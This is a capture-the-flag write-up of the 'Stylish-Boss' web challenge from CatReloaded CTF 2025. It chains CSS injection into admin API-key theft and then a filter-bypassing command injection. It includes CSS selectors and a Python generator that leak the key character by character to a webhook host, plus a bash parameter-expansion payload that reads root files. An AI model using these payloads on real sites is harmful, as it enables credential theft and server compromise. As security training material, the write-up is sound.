

# Stylish-Boss | CatReloaded CTF 2025

This write-up covers a challenge from **CTF CAT 2025** in the **VulnCraft** category.  
The challenge was a web challenge with a slightly advanced level, and out of more than 200 teams, only 8 teams managed to solve it.  
Our team, **Mont5ab El2hwa**, was one of them.

> This writeup was written by [**Ibrahim Saeid (babayaga0x01)**](https://www.linkedin.com/in/ibrahim-saeid-b43b99378/)

---

**Download challenge files:** [Stylish-Boss Challenge Files](https://github.com/MushroomWasp/blog/raw/refs/heads/main/stylish-boss-cat-ctf-official/Stylish-Boss.zip)

---

## Table of Contents
- [Introduction](#introduction)
- [Initial Analysis](#initial-analysis)
- [Exploit Strategy](#exploit-strategy)
- [CSS Injection](#css-injection)
- [Python Script for Exfiltration](#python-script-for-exfiltration)
- [Command Injection](#command-injection)
- [Final Exploit Payload](#final-exploit-payload)
- [Flag Capture](#flag-capture)
- [Conclusion](#conclusion)

---

## Introduction

In the name of Allah.  
From the challenge name **"Stylish-Boss"** (something I like to remind myself of), it looked like there's something related to CSS.

## Initial Analysis

### CSP Policy
First thing, I opened the source code `server.js`. What caught my attention was:

```jsx
app.use((req, res, next) => {
    res.setHeader("Content-Security-Policy", "default-src 'self'; style-src 'self' 'unsafe-inline'; script-src 'self' 'unsafe-inline'; img-src *;");
    next();
});
```

When you review this CSP, you'll realize that it can be used to steal admin data — but how?

Let's continue…

### Dependencies Review

```json
{
  "name": "stylish-boss",
  "version": "1.0.0",
  "main": "server.js",
  "scripts": {
    "start": "node server.js"
  },
  "dependencies": {
    "bcrypt": "^5.0.1",
    "cookie-parser": "^1.4.6",
    "ejs": "^3.1.8",
    "express": "^4.18.2",
    "jsonwebtoken": "^9.0.2",
    "metadata-stripper": "^1.0.1",
    "puppeteer": "^24.11.2",
    "sqlite3": "^5.1.2"
  }
}
```

`package.json` contained standard dependencies but included a suspicious one:

```json
"metadata-stripper": "^1.0.1"
```

I searched for the packages, the packages were fine, but the `metadata-stripper` was the weird one, never seen it before. I noted that and left it behind. (Unfamiliar and worth investigating)

### Endpoints Overview

I opened the next file, didn't find anything interesting.

From `main.js`, we discovered 4 endpoints:
1. **GET /** → Shows the homepage, and if the user is logged in, it fetches his font settings.
2. **POST /set-font** → Takes the font type from the user.
3. **GET /profile** → Displays the profile page.
4. **POST /report** → Creates a report and makes the bot visit the page. → Here I started imagining that the XSS could be used to steal the bot's cookie and get admin access.

### Authentication Logic

- I kept reading… the next page was just normal auth stuff, and in `api.js` there was a endpoint: **POST `/strip-metadata`**
- It accepts a filename from the **Header (`X-File-Name`)** and runs the **MetadataStripper** package to remove metadata.

The last file was `auth.js` which had:

- **protect**
    - Checks the existence and validity of the JWT token in the cookie.
    - If valid → adds user data and continues.
    - If not → redirects to `/login`.
- **bossOnly**
    - Only allows access if the user role = `Boss`.
    - Otherwise → returns 403 Forbidden.
- **addUserToRequest**
    - Tries to add user data if there's a JWT token.
    - But doesn't block access if the token is missing/invalid.
- **apiKeyAuth**
    - Checks the `X-API-Key` header.
    - It must be valid and belong to a `Boss` user.
    - Otherwise → returns 401 or 403.

## Exploit Strategy

Done with analysis the code.

The exploit idea in my head: **force admin to visit a link → steal `X-API-Key` → start testing server responses.**

## CSS Injection

So I registered a user.


Then clicked on **Go Back to Font Settings**


Obviously, the XSS would be in this input field. First I tried a normal payload:

### Payload Testing
```html
<script>alert('babayaga0x01');</script>
```

Didn't work because `<>` were blocked. I thought maybe CSS could be the key (like I expected). 


After some searching with my team, we found these articles and shifted to CSS injection with external URL loads:
- [Beyond XSS: CSS Injection](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)
- [Private data stolen via CSS Injection](https://www.invicti.com/blog/web-security/private-data-stolen-exploiting-css-injection/)
- [CSS data exfiltration in Firefox](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)

There's this CSS trick with `url(https://myserver.com?q=a)` where you can load external URLs. So I tried this to embed a gif:

```css
sans-serif'; background: url(https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif);'/*
```

**✅ Worked successfully.**


### Stealing API Keys
Now let's use it to steal the admin's API key.

With CSS injection, I could inject a full `<div>` like this.
We used CSS selectors to exfiltrate:

```css
div[data-internal-api-key^="sk_"] {
    background: url("https://webhook.com/leak?c=sk_");
}
```

```css
sans-serif'; div {
    background-image: url('https://media.giphy.com/media/SggILpMXO7Xt6/giphy.gif');
}
```

When I tested uploading with strip-metadata, I found my own API key looked like:

`X-API-Key: sk_yd07fdpwif` → so the format is `sk_RANDOM`.

We can extract it with:

```css
div[data-internal-api-key^="sk_"] {
    background: url("https://webhook.com/leak?c=sk_");
}
```

**Payload breakdown:**

1. `div` → I want to target `<div>` elements.
2. `data-internal-api-key` → that's the attribute inside the div.
3. `^="sk_"` → the `^=` operator means "value starts with".
4. So the condition = "grab any `<div>` that has `data-internal-api-key` starting with `sk_`".

## Python Script for Exfiltration
I asked a friend his handler [macabely](https://macabely.github.io/) to help and he wrote a script to extract the API key character by character.

```python
import sys

WEBHOOK_URL = "https://webhook.site/d8a7c3ad-53b2-4cff-b0c"

ID_SELECTOR = "#api-key-container"

ATTRIBUTE_NAME = "data-internal-api-key"

# brute force the keys
CHARS = "abcdefghijklmnopqrstuvwxyz0123456789"

# Start with "sk_"
known_prefix = sys.argv[1] if len(sys.argv) > 1 else "sk_7"

print(f"[*] Generating payload for prefix: '{known_prefix}'")

payload_parts = []

for char in CHARS:
    leaked_part = known_prefix + char
    # The URL path will show us the full leaked string
    url = f"//{WEBHOOK_URL.split('//')[1]}/{leaked_part}"
    selector = f'{ID_SELECTOR}[{ATTRIBUTE_NAME}^="{leaked_part}"]'
    rule = f'{selector}{{background:url({url});}}'
    payload_parts.append(rule)

# Final payload starts with '} to escape, and ends with /* to comment out junk
final_payload = "'}" + "".join(payload_parts) + "/*"

print(final_payload)
```

It grabs the first character → then you append it like `sk_$` → rerun the script → send payload → repeat until you leak the full key.

Finally, we got the full key:

`X-API-Key: sk_7xknxgm3vo`

## Command Injection

Now I could send requests to:

**POST `/api/strip-metadata`**

When sending, I got back:

```json
{"message":"Filename processed successfully.","details":"    0 image files updated\\n    1 files weren't updated due to errors\n"}
```

From the message I suspected **command injection**. I started testing:

1. `test.txt |`

```json
{"message":"Filename processed successfully.","details":"No output from command."}
```

2. `test.txt | echo test`

```json
{"message":"Filename processed successfully.","details":"test\n"}
```

3. `test.txt | echo flag`

```json
{"message":"Filename processed successfully.","details":"\n"}
```

This means something is filtering out the word **FLAG**.

I went back to the source where it processes the filename:


As you can see the `MetadataStripper()` comes from the metadata-stripper package. I went to npm and started searching for metadata-stripper. I found one just published 2 months ago [metadata-stripper v1.0.1](https://www.npmjs.com/package/metadata-stripper/v/1.0.1?activeTab=code)

And guess what? The author of the package = the challenge author 😅


The important part was this:


### Bypassing Character Filters

**So the filter allows:**

1. All English letters (a–z) except **a, f, l, g** (they're stripped).
2. All digits (0–9).
3. Allowed symbols: `$ { } : ( ) "`

**From the docker file, we know that the flag exists in the root directory**

```dockerfile
FROM node:18-slim

WORKDIR /application

COPY package*.json ./

RUN apt-get update && apt-get install -y \
    ca-certificates \
    fonts-liberation \
    libasound2 \
    libatk-bridge2.0-0 \
    libatk1.0-0 \
    libcairo2 \
    libcups2 \
    libdbus-1-3 \
    libexpat1 \
    libfontconfig1 \
    libgbm1 \
    libgcc1 \
    libglib2.0-0 \
    libgtk-3-0 \
    libnspr4 \
    libnss3 \
    libpango-1.0-0 \
    libpangocairo-1.0-0 \
    libstdc++6 \
    libx11-6 \
    libx11-xcb1 \
    libxcb1 \
    libxcomposite1 \
    libxcursor1 \
    libxdamage1 \
    libxext6 \
    libxfixes3 \
    libxi6 \
    libxrandr2 \
    libxrender1 \
    libxss1 \
    libxtst6 \
    lsb-release \
    wget \
    xdg-utils \
    exiftool \
    --no-install-recommends \
    && rm -rf /var/lib/apt/lists/*

RUN npm install

COPY . .

RUN echo "flag{$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 32)}" > /flag

EXPOSE 3000

ENV PORT=3000

CMD ["npm", "start"]
```

## Final Exploit Payload
After some research, I found a Bash trick → **parameter expansion**: `${VAR:offset:length}`.
**Now all we need to do is `cat /*`**

- `${PWD}` → `/application`
    
    
    
- `${PWD:6:1}` → `c`
- `${PWD:7:1}` → `a`
- `${PWD:8:1}` → `t`
- `${HOME:0:1}` → `/`

So we can build `cat /*` via expansion:

**Final payload:**

```bash
|${PWD:6:1}${PWD:7:1}${PWD:8:1} ${HOME:0:1}*
```

## Flag Capture
Extracted the flag successfully:


And finally got the flag:

```
CATF{132231123213_Y0U_M4D3_1T_B055_Y0U_D3S3RV3_4_MU5HR00M_45_4_G1FT!_23312213132}
```

## Conclusion

This challenge demonstrated a sophisticated attack chain: **CSS Injection → Data Exfiltration → Command Injection**. The key insights were:

1. **CSS Injection**: Exploiting font settings to inject malicious CSS payloads
2. **Data Exfiltration**: Using CSS selectors and external URL requests to steal admin API keys character by character
3. **Command Injection**: Leveraging the metadata-stripper package vulnerability with parameter expansion to bypass character filters

The challenge showcased web exploitation techniques and the importance of thorough security analysis in modern web applications.